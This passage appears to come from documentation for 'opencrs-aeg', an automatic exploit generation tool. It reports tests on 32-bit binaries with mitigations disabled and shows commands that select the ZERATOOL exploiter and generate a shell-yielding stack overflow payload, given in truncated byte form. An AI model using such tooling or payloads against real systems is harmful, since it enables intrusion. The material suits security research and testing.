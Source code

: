 1. NX, canaries, and PIE disabled; and
2. NX enabled + canaries and PIE disabled.

In addition, one executable had a sensitive function that could be called in the exploit (as an alternative to other symbols, for example). The module successfully generated exploits in all cases.

```bash
➜ opencrs-aeg recommend --elf bof_nx_32 --stream=STDIN --mitigation=NX --weakness=STACK_OUT_OF_BOUND_WRITE
Exploiters that can be used considering the context are:
- ZERATOOL
```

```bash
➜ opencrs-aeg exploit --exploiter ZERATOOL --elf bof_nx_32 --stream STDIN --mitigation NX --weakness STACK_OUT_OF_BOUND_WRITE
The exploiter could generate an exploit with the outcome of SHELL and the following payloads:

- For STDIN:
[...]
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x90\x04\x08baaa\x1e\xa0\x04\x08\x00\x00\x00\x00\x00
[...]
```
